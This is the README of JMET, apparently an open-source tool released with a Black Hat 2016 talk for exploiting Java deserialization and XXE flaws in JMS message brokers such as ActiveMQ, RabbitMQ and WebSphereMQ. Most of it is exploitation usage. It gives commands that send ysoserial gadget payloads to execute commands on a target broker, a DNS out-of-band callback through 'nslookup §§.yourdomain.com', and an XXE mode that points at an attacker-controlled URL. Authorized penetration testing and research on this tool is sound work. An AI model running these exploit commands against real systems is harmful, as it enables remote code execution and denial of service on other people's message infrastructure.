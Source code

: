 # JMET
The Java Message Exploitation Tool
```ascii
       ____  _______________
      / /  |/  / ____/_  __/
 __  / / /|_/ / __/   / /   
/ /_/ / /  / / /___  / /    
\____/_/  /_/_____/ /_/
```

# Description
JMET was released at Blackhat USA 2016 and is an outcome of Code White's research
effort presented in the talk "Pwning Your Java Messaging With
Deserialization Vulnerabilities".
The goal of JMET is to make the exploitation of the Java Message Service (JMS) easy.
In the talk more than 12 JMS client implementations where shown, vulnerable to
deserialization attacks.
The specific deserialization vulnerabilities were found in ObjectMessage implementations
(classes implementing javax.jms.ObjectMessage).
The following more or less complete list shows the vulnerable JMS broker client
libraries:
* Apache ActiveMQ
* Redhat/Apache HornetQ
* Oracle OpenMQ
* IBM WebSphereMQ
* Oracle Weblogic
* Pivotal RabbitMQ
* IBM MessageSight
* IIT Software SwiftMQ
* Apache ActiveMQ Artemis
* Apache QPID JMS
* Apache QPID Client
* Amazon SQS Java Messaging

For creating gadget payloads JMET makes use of Chris Frohoffs' Ysoserial.

# Supprted JMS client libraries
* Apache ActiveMQ
* Redhat/Apache HornetQ
* Oracle OpenMQ
* IBM WebSphereMQ
* ~~Oracle Weblogic~~
* Pivotal RabbitMQ
* ~~IBM MessageSight~~
* IIT Software SwiftMQ
* Apache ActiveMQ Artemis
* Apache QPID JMS
* Apache QPID Client
* ~~Amazon SQS Java Messaging~~

# Dependencies
JMET depends on a lot of libraries :(. For details see the maven pom file.

# Installation
Just download jmet-0.1.0-all.jar from here or built it (see "Build instructions").

# Usage

```ascii
$ java -jar target/jmet-0.1.0-all.jar
ERROR d.c.j.JMET [main] Misconfiguration: Missing required options: [-C Custom script exploitation mode, -Y Deser exploitation mode, -X XXE exploitation mode], [-T topic name, -Q queue name], I
usage: jmet [host] [port]
 -C,--Custom <scriptname>         Custom script exploitation mode
 -f,--filter <scriptname>         filter script
 -I,--impl <arg>                  ActiveMQ| Artemis| WebSphereMQ| Qpid10|
                                  Qpid09| HornetQ| SwiftMQ| RabbitMQ|
                                  OpenMQ
 -pw,--password <pass>            password for authentication
 -Q,--Queue <name>                queue name
 -s,--substitute                  Substituation mode: Use §§ to pass
                                  ysoserial payload name to CMD
 -T,--Topic <name>                topic name
 -u,--user <id>                   user for authentication
 -v,--verbose                     Running verbose mode
 -X,--XXE <URL>                   XXE exploitation mode
 -Xp,--xxepayload <payloadname>   Optional: XXE Payload to use EXTERNAL|
                                  PARAMATER| DTD
 -Y,--ysoserial <CMD>             Deser exploitation mode
 -Yp,--payload <payloadname>      Optional: Ysoserial Payload to use
                                  BeanShell1| CommonsBeanutils1|
                                  CommonsCollections1|
                                  CommonsCollections2|
                                  CommonsCollections3|
                                  CommonsCollections4|
                                  CommonsCollections5| Groovy1|
                                  Hibernate1| Hibernate2| Jdk7u21| JSON1|
                                  ROME| Spring1| Spring2
 -Zc,--channel <channel>          channel name (only WebSphereMQ)
 -Zq,--queuemanager <name>        queue manager name (only WebSphereMQ)
 -Zv,--vhost <name>               vhost name (only AMQP-Brokers:
                                  RabbitMQ|QPid09|QPid10)
```
## Gadget exploitation mode
Create gadgets for executing "xterm" and send them all to queue "event".
As implementation ActiveMQ is choosen, the target system is "jmstarget" listening
on port 61616.
```bash
$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -Y xterm jmstarget 61616
```
To find out which gadget was executed you can use the "substitution"-mode with
 an out-of-band channel like DNS. To pass the gadget name to your command use
 the "§§" string which then gets substituted with the gadget name.

```bash
$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "nslookup §§.yourdomain.com" jmstarget 61616
```
## XXE exploitation mode
The XXE exploition mode requires to specify an URL to be resolved as an
external entity. The XXE vectors are sent inside a TextMessage.
```bash
$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -X http://192.168.85.148:8081 jmstarget 61616
```
## Custom exploitation mode
The custom exploitation mode allows to run a custom JavaScript script.
The purpose of this mode is to support different serialization formats (JSON, etc.)
and custom payloads.

The following example script uses the XML serialization library XStream.
The String "Object" is serialized to XML and put into an TextMessage using the
de.codewhite.jmet.target.JMSTarget.addTextPayload(String payloadName, String payloadText)-method.
Required libraries need to be put into the "external"-directory of JMET.
```javascript
function payload(target){

        var imports = new JavaImporter(java.io, java.lang, com.thoughtworks.xstream);
        with (imports) {

            xstream = new XStream();
            target.addTextPayload("test",xstream.toXML("Object"));

        }
}
```

## Filter scripts
Filter scripts are used for modifying "javax.jms.Message"-instances before sent
to the target destination.
The following Javascript changes the JMSPriority of every message, prints out
a string und returns the modified message back.
```javascript
function filter(message){

    message.setJMSPriority(3);
    print("Changed Priority")
    return message;

}
```

# Build instructions
Please put the following libraries of the commercial brokers into a
directory of your choice (e.g. DIR).

* com.ibm.mq.allclient.jar (WebSphere MQ)
* amqp.jar  (SwiftMQ)
* jms.jar (SwiftMQ)
* swiftmq.jar (SwiftMQ)

Then invoke maven with the property "commercial" set to your path.
```bash
$ export MAVEN_OPTS=-Xss10m
$ mvn clean compile assembly:single -Dcommerical=DIR
```

If you don't want to use the commercial brokers at all you can just delete
the following files:
* src/main/java/de/codewhite/jmet/target/impl/WebSphereMQTarget.java
* src/main/java/de/codewhite/jmet/target/impl/SwiftMQTarget.java

```bash
$ export MAVEN_OPTS=-Xss10m
$ mvn clean compile assembly:single
```
# Disclaimer
JMET is a proof-of-concept tool for blackbox testing of JMS destinations.
Please use this tool with care and only when authorized.
Be aware that sending an invalid message to a JMS destination might result in a denial-of-service
 state (DOS) of the target system.
 You have been warned !!!

# License
JMET is released under The MIT License (MIT).
